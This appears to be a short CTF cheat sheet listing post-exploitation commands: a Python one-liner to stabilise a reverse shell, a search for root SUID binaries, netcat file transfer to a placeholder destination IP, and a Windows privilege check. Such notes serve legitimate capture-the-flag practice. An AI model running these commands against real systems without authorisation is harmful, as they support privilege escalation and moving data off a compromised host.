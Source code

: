 ```yaml
---
title: "Handy CTF Commands"
description: "A collection of commands that I find handy when doing CTFs"
date: '2024-01-28'
---
```


This is a collection of commands that I find useful when playing CTFs.

# Linux

## Stabilize a Reverse Shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Finding all SUID Binaries on a System

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Transfer Files with Netcat

On the receiving end:

```bash
nc -lp 4444 > out.file
```

On the sending end:

```bash
nc -w 3 [destination IP] 4444 < out.file
```

# Windows

## Check the Current User Privileges

```powershell
whoami /privs
```